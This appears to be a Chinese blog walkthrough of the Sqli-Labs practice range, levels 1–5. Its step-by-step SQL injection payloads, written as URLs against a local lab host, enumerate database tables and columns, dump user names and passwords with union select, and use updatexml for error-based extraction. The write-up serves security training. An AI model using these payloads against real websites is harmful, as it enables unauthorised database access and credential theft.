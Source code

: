 ```yaml
---
title: Sqli-Lab 靶场题解
published: 2025-07-14
description: 'Sqli-Labs 是一个专门用于练习 SQL 注入漏洞的开源靶场项目，由印度安全研究员 Dhurva 开发，本文记录了Sqli-Lab靶场的题目WP。项目地址:https://github.com/Audi-1/sqli-labs'
image: ''
tags: [sql注入]
category: 'web安全'
draft: false 
lang: ''
---
```


## 基础挑战 1-20关

### Less-1

经过检测为字符型

检测表的列数：

```shell
http://sqli.local/Less-1?id=1' order by 3%23
http://sqli.local/Less-1?id=1' order by 4%23
```

得出有三列，之后操作同less-2

```shell
http://sqli.local/Less-1/?id=-1' union select 1,database(),group_concat(table_name) FROM information_schema.tables WHERE table_schema="security"%23
```

![image-20250714154648520](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714154649982.png)

### Less-2

测试数字型 or 字符型

```shell
#对比两个结果
http://sqli.local/Less-2/?id=1
http://sqli.local/Less-2/?id=2-1
```

 发现结果相同，为数字型

判断回显位

```shell
http://sqli.local/Less-2/?id=-1 union select 1,2,3
```

![image-20250714135418329](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714135447824.png)

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),version()%23
```

> %23经过转义后为#，代表注释符

![image-20250714135754885](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714135756389.png)

得到数据库版本为5.7.40，可以用information_schema库查表名，列出security数据库中所有表名

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),table_name FROM information_schema.tables WHERE table_schema="security"%23
```

![image-20250714140059376](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20250714140059376.png)

但因为前端只能显示一个数据，所以需要将多条记录合成一条，用到**group_concat()**

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(table_name) FROM information_schema.tables WHERE table_schema="security"%23
```

![image-20250714140423164](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714140424670.png)

得到security数据库中的表有emails，referers，usagents，users

泄露表中的字段信息：

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(column_name) FROM information_schema.columns WHERE table_schema="security" and table_name="emails"%23
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(column_name) FROM information_schema.columns WHERE table_schema="security" and table_name="referers"%23
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(column_name) FROM information_schema.columns WHERE table_schema="security" and table_name="usagents"%23
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(column_name) FROM information_schema.columns WHERE table_schema="security" and table_name="users"%23
```

查出user表中的所有数据

```shell
http://sqli.local/Less-2/?id=-1 union select 1,database(),group_concat(concat_ws("-",id,username,password)) FROM security.users
```

![image-20250714142402470](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714142404372.png)

### Less-3

同Less-1,2，只是闭合方式不同：

```shell
# 闭合方式变为')
http://sqli.local/Less-2/?id=-1')
```

### Less-4

同上，但闭合方式不同

```shell
http://sqli.local/Less-4/?id=-1")
```

### Less-5

本关查询结果不会显

```shell
http://sqli.local/Less-5/?id=1' # 报错
http://sqli.local/Less-5/?id=1" # 没有报错
```

闭合方式为单引号

利用报错注入

```shell
http://sqli.local/Less-5/?id=1'and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
```

![image-20250714152557928](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20250714152559123.png)



